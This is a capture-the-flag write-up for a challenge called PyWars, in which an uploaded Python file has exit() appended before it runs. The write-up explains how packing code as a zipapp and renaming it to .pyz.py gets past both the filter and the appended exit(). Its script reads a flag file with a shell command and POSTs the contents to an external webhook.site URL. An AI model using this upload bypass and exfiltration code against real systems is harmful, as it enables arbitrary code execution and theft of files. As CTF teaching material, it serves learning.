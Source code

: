 # ♖ PyWars ♖
> Author: 堇姬Naup

## analyze
Go to read source code.
You can upload one python file, it will add `exit()\n` on your upload's file and use `python3 <your upload python file>`.
So if you can bypass code which it add. You will execute any python's code.

Let me look how to bypass.
Read python's document, we will read this
https://docs.python.org/3.14/library/zipapp.html

You can pack your `.py` to `.pyz`
If we add some bytes in front of `zip's magic number`, it still can be execute.
And then pyz can use `python3 script.pyz`.

```
00000000: 504b 0304 1400 0000 0000 9753 7f5a dc1b  PK.........S.Z..
00000010: 5faa 2e02 0000 2e02 0000 0b00 0000 5f5f  _.............__
```
So we write code at `script/__main__.py`, and pack it to pyz.

OK, let me review code.
It have filter, and just upload `.py`
But we can use `script.pyz.py`, it can bypass its filter. And if your upload's file format is `.pyz`, it will be executed no matter how its file extension

## script
run.sh
```sh
python3 -m zipapp script
mv script.pyz script.pyz.py
```

script/\_\_main\_\_.py
```py
import urllib.request
import os
import json

flag = os.popen('cat /app/flags/flag_7fc489cb-4e06-4cc8-9404-f856816c2033.txt').read().strip()
url = 'https://webhook.site/4942a284-d09e-417c-9039-d335aaf9af4b'
data = json.dumps({'flag': flag}).encode('utf-8')
req = urllib.request.Request(url, data=data, headers={'Content-Type': 'application/json'}, method='POST')

try:
    response = urllib.request.urlopen(req)
    content = response.read()
    print(f"success: {content.decode('utf-8')}")
    
except urllib.error.URLError as e:
    print(f"error: {e}")
```

We use request send flag to your server.
